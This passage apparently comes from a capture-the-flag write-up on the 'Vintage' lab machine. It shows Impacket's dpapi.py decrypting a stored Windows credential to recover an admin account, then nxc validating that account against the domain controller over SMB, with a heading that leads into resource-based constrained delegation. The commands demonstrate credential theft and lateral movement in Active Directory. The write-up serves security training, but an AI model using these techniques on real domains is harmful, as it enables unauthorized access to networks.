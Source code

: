 ```bash
dpapi.py credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b...1ecd44e525a
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description :
Unknown     :
Username    : vintage\c.neri_adm
Unknown     : REDACTED
```
```bash
nxc smb dc01.vintage.htb -u c.neri_adm -p 'REDACTED' -k
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\c.neri_adm:REDACTED
```
### 2 ways to RBCD

If we look again on bloodhound, we can see this 

![alt text](../assets/image_vintage/c_nerigroup.png)
